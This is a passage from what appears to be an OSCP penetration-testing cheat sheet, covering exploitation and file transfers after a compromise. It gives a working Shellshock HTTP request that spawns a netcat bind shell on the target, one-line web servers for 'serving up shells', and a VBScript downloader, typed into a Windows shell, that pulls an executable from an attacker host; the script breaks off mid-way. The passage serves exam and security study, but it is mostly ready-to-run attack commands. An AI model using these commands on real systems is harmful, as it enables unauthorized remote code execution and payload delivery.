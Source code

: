     *   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

# [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#file-transfers)File Transfers

*   Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

*   Simple Local Web Servers

    *   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    *   Run a basic Python3 http server, great for serving up shells etc  
        python3 -m http.server

    *   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    *   Run a basic PHP http server  
        php -S $ip:80

*   Creating a wget VB Script on Windows:  
    [_https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt_](http://web.archive.org/web/20171113221652/https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

*   Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo
